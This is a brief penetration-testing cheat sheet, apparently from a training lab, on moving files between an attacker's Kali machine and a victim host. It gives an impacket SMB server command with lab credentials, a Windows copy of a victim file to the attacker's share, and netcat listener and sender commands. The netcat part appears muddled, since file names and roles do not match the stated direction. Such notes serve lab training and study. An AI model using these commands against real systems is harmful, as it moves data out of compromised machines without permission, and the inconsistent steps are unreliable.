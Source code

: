 # Transferring Files



## **SMB**

**Kali**

```
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```

**Victim**

```
copy C:\File\to\tranfer.exe \\$KALI\public\
```

## Netcat

**Victim**

```
nc -nvlp 5050 > stolen.exe
```

**Kali**

```
nc.exe -w3 $VICTIM 5050 < stealme.exe
```



